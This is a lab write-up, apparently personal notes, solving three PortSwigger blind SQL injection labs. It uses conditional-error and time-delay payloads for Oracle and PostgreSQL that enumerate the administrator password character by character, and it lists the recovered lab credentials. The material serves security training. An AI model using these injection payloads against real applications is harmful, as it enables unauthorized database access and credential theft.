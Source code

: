 
### [Lab: Blind SQL injection with conditional errors](https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors)

Vulnerable URL: https://domain/filter?category=category
- This URL does not provide any elements that interact with the injected SQL, if we cause errors in the database, the page will render an error

Test payload: `cookie' AND (SELECT CASE WHEN (1=1) THEN 'a' ELSE TO_CHAR(1/0) END FROM dual) = 'a'--` and `cookie' AND (SELECT CASE WHEN (1=2) THEN 'a' ELSE TO_CHAR(1/0) END FROM dual) = 'a'--`
- When the first query is injected the page loads normally, but when the second query is injected an error page is loaded due to a 500 error (server error, database error in that case). The site has unhandled database errors, making it vulnerable to blind SQL injection

To get the administrator password, the logic is the same as in the previous lab. It can also be done through Burp Intruder or a script. The only thing that changed is the queries (different technique and database)
- Query to get the password size: `' AND (SELECT CASE WHEN (LENGTH(password) > [size]) THEN 'a' ELSE TO_CHAR(1/0) END FROM users WHERE username = 'administrator') = 'a'--`
- Query to enumerate the password: `' AND (SELECT CASE WHEN (SUBSTR(password, [position], 1) = '[character]') THEN 'a' ELSE TO_CHAR(1/0) END FROM users WHERE username = 'administrator') = 'a'--`

To solve the lab log in as `administrator:r17fdjbk4v1bdmqqisd8`


### [Lab: Blind SQL injection with time delays](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays)

Vulnerable URL: https://domain/filter?category=category
- This URL does not provide any elements that interact with the injected SQL nor reacts with database errors

Test payload: `'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
- This payload triggers a time delay that can be confirmed with a long page loading time


### [Lab: Blind SQL injection with time delays and information retrieval](https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval)

Vulnerable URL: https://domain/filter?category=category

Test payload: `'; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`
- This is a PostgreSQL database

To get the administrator password, the logic is the same as the previous enumeration labs. The queries will be:
- Query to get the password size: `'; SELECT CASE WHEN (LENGTH(password) > [size]) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--`
- Query to enumerate the password: `'; SELECT CASE WHEN (SUBSTR(password, [position], 1) = '[character]') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users WHERE username = 'administrator'--`

To solve the lab log in as `administrator:yb1hh06qlempkmxh6yto`
